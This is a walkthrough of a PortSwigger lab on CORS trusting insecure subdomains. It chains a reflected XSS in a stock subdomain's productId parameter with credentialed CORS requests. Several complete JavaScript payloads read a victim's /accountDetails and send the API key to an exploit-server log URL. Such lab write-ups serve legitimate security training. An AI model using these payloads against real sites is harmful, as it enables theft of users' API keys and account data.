



# [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- Response body from request to `/accountDetails` made after logging in contains the targeted API key.


- Response also contains `Access-Control-Allow-Credentials: true` header which means it would be maybe possible to read response from this endpoint when requested from another domain as well.
- Tried delivering simple script to the victim. Script would make a request to the `/accountDetails`, including the cookies, read the response and make a call to exploit server to report back the API key of victim.

```html
<script>
  fetch(
    "https://0ae200b00482b51e82815cc0004700f7.web-security-academy.net/accountDetails",
    {
      credentials: "include",
    },
  )
    .then((res) => {
      console.log(res);
      return res.json();
    })
    .then((data) => {
      fetch(
        "https://exploit-0af600c70434b54a82865bea01950045.exploit-server.net/log?apikey=" +
          data.apikey,
      );
    });
</script>
```

- By testing exploit myself it's observed that domain of exploit server as origin gets blocked:


- After testing custom domain, null, and custom subdomain as `Origin` it was observed that server does return `Access-Control-Allow-Origin` reflecting any subdomain of server's original domain.





- After exploring the website it was noticed it has a feature that uses a `stock` subdomain like so:

```
https://stock.0ae200b00482b51e82815cc0004700f7.web-security-academy.net/?productId=5&storeId=1
```

- Playing with arguments produced interesting error response:

```
https://stock.0ae200b00482b51e82815cc0004700f7.web-security-academy.net/?productId=abcd&storeId=qwert
```

```html
<h4>ERROR</h4>
Invalid product ID: abcd
```

- Checking `productId` id for XSS vulnerability proved fruitful. Opening this url in browser opened alert dialog:

```
https://stock.0ae200b00482b51e82815cc0004700f7.web-security-academy.net/?productId=<script>alert();</script>&storeId=qwert
```

- To exploit this vulnerability this script was set as `productId` value:

```html
<script>
  fetch(
    "https://0ae200b00482b51e82815cc0004700f7.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((r) => r.json())
    .then((d) =>
      fetch(
        "https://exploit-0af600c70434b54a82865bea01950045.exploit-server.net/log?apikey=" +
          d.apikey,
      ),
    );
</script>
```

- So that final script uploaded to the exploit server looked like this:

```html
<script>
  var payload =
    "<script>fetch('https://0ae200b00482b51e82815cc0004700f7.web-security-academy.net/accountDetails',{credentials:'include'}).then(r=>r.json()).then(d=>fetch('https://exploit-0af600c70434b54a82865bea01950045.exploit-server.net/log?apikey='+d.apikey))<\/script>";
  document.location =
    "http://stock.0ae200b00482b51e82815cc0004700f7.web-security-academy.net/?productId=" +
    encodeURIComponent(payload) +
    "&storeId=qwert";
</script>
```

- Victim's API key was successfully read from the exploit server log.
